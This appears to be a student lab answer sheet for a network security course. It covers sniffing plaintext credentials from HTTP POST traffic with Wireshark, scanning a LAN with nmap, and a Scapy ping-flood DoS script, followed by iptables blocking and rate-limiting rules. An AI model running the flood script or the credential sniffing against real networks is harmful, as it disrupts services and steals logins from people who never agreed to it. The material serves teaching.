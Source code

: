 # MSEI 021

## Question 1: Implement the network sniffers to find out usernames and passwords by retrieving the packets from HTTP POST on any website.
Steps Using Wireshark (No Code Needed):

Open Wireshark.
Select your network interface.
Apply the filter: http.request.method == "POST".
Capture traffic, identify HTTP POST packets, and inspect their payload for credentials.

Note: HTTP POST often transmits data like usernames and passwords in plain text. Ensure ethical and authorized use.

## Question 2: Define the topology used in LAN and scan the network with details like IP, MAC Address, Host name, Username, and OS details of at least 10 machines, and generate the report.
Using nmap Command (No Code Needed):

Install nmap:
``` sudo apt install nmap ```

Scan your LAN:
``` sudo nmap -sn 192.168.1.0/24 ```
(Replace 192.168.1.0/24 with your subnet.)

To get detailed information, use:

sudo nmap -A -T4 192.168.1.0/24
(This will provide details like IP, MAC Address, Hostname, OS, and open ports.)

Save the output:

sudo nmap -A -T4 192.168.1.0/24 > network_report.txt
(The results will be stored in network_report.txt.)

## Question 3: Attempt a DoS/DDoS attack on the target computer and display the list of IPs with access details. Prevent the DDoS attack using any firewall.

Part A: Attempt DoS Attack
Code for DoS Attack Using Scapy:

python

from scapy.all import *

target_ip = "192.168.1.100"  # Replace with the target IP
packet = IP(dst=target_ip)/ICMP()  # ICMP packets for ping flood

print("Starting DoS attack...")
send(packet, count=10000, inter=0.001)  # Sends 10,000 packets
print("DoS attack completed.")

Part B: Display IPs Who Attempted the Attack
Monitor logs using:

bash
sudo tail -f /var/log/syslog

Use iptables to track incoming traffic:

bash
sudo iptables -L -n -v

Part C: Prevent DDoS Using Firewall
Commands to Block IPs Using iptables:

Block specific attacking IP:

bash
sudo iptables -A INPUT -s <attacker-ip> -j DROP

Use rate limiting to mitigate attacks:

bash
sudo iptables -A INPUT -p tcp --dport 80 -m limit --limit 25/minute --limit-burst 100 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 80 -j DROP
